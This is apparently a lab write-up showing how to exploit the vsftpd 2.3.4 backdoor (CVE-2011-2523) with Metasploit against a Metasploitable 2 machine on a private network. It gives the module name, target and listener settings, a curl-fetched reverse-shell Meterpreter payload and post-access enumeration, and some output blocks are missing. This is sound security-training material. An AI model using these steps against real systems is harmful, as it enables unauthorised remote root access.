







# Exploiting vsftpd 2.3.4 Backdoor using Metasploit

## Overview

Vsftpd (Very Secure FTP Daemon) is a lightweight and security-focused FTP server widely used due to its stability, performance, and support for features such as anonymous FTP access, virtual users, and SSL/TLS encryption. In 2011, the CVE-2011-2523 vulnerability emerged when the official vsftpd 2.3.4 package was maliciously modified to include a hidden backdoor that opened a root shell on TCP port 6200 whenever a username ending with `:)` was used during login. This allowed unauthenticated remote root access to the target system, resulting in a critical CVSS score of 10.0, and the exploit later became a well-known example used in cybersecurity training environments such as Metasploitable 2.


## Step 1 - Launch Metasploit Framework

Open a terminal and launch the Metasploit console:

```bash
msfconsole
```

Once loaded, you will see the Metasploit banner along with the module count summary. This confirms the framework is ready.




## Step 2 - Search for the vsftpd Module and Configure the Exploit

Inside the `msf >` prompt, search for available vsftpd modules:

```
msf > search vsftpd
```

This returns two matching modules:

| # | Name | Disclosure Date | Rank | Description |
|---|------|----------------|------|-------------|
| 0 | auxiliary/dos/ftp/vsftpd_232 | 2011-02-03 | normal | VSFTPD 2.3.2 Denial of Service |
| 1 | exploit/unix/ftp/vsftpd_234_backdoor | 2011-07-03 | excellent | VSFTPD 2.3.4 Backdoor Command Execution |

Select the backdoor module and set the target host:


> Note: Setting `LHOSTS` at this stage will trigger a warning — "Unknown datastore option: LHOSTS. Did you mean RHOSTS?" This is expected behavior. The correct payload option is `LHOST` (without the S), which is set in the next step.




## Step 3 - Attempt to Run and Fix the LHOST Validation Error

When running the exploit without `LHOST` properly set, Metasploit throws a validation error:

```
[-] 10.155.14.98:21 - Msf::OptionValidateError One or more options failed to validate: LHOST.
```

The `run` command will fail if `LHOST` is not correctly configured on the payload. This is separate from the module-level `LHOSTS` option set earlier.





## Step 4 - Set LHOST Correctly and Verify All Options

Set `LHOST` using the correct option name (without the S) to resolve the payload validation error:


After setting `LHOST`, the full options view should show:

**Module Options (exploit/unix/ftp/vsftpd_234_backdoor):**

| Name | Current Setting | Required | Description |
|------|----------------|----------|-------------|
| RHOSTS | 10.155.14.98 | yes | The target host(s) |
| RPORT | 21 | yes | The target port (TCP) |

**Payload Options (cmd/linux/http/x86/meterpreter_reverse_tcp):**

| Name | Current Setting | Required | Description |
|------|----------------|----------|-------------|
| FETCH_COMMAND | CURL | yes | Command to fetch payload |
| FETCH_DELETE | false | yes | Delete binary after execution |
| FETCH_FILELESS | none | yes | Run payload without touching disk |
| FETCH_SRVHOST | | no | Local IP for serving payload |
| FETCH_SRVPORT | 8080 | yes | Local port for serving payload |
| FETCH_URIPATH | | no | Local URI for serving payload |
| LHOST | 10.155.14.121 | yes | The listen address |
| LPORT | 4444 | yes | The listen port |




## Step 5 - Run the Exploit and Open a Meterpreter Session

With all options correctly configured, run the exploit:

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > run
```

A successful exploitation will produce output similar to:


A Meterpreter session is now active. Running `id` will show an "Unknown command" error in this payload type, so use `help` to view available Meterpreter core commands such as `background`, `bg`, `bgkill`, `bglist`, and `bgrun`.





## Step 6 - Enumerate Network Interfaces on the Target

Use the `ifconfig` command inside the Meterpreter session to enumerate the target machine's network interfaces:

```
meterpreter > ifconfig
```

The output reveals the network configuration of the compromised machine:

This confirms access to the target machine at `10.155.14.98`.




## Step 7 - View vsftpd Logs on the Target Machine

On the target machine (Metasploitable), the vsftpd service logs all connection attempts. These logs can be tailed to observe the attack activity:

```bash
msfadmin@metasploitable:~$ sudo tail -f /var/log/vsftpd.log
```

The log output confirms multiple connection attempts from the attacker IP `10.155.14.121`, including successful logins, failed logins, and connect events:


The log clearly shows the attacker IP connecting, with both successful and failed login attempts recorded during the exploitation window.




## Summary

The vsftpd 2.3.4 backdoor exploit was successfully executed using the following steps:

1. Launched Metasploit Framework with `msfconsole`
2. Searched for and selected the `exploit/unix/ftp/vsftpd_234_backdoor` module
3. Set `RHOSTS` to the target IP `10.155.14.98`
4. Resolved the `LHOST` validation error by using the correct option name
5. Set `LHOST` to the attacker IP `10.155.14.121` and verified all options
6. Ran the exploit and obtained a Meterpreter session
7. Enumerated network interfaces on the target using `ifconfig`
8. Verified attack activity through vsftpd logs on the target machine
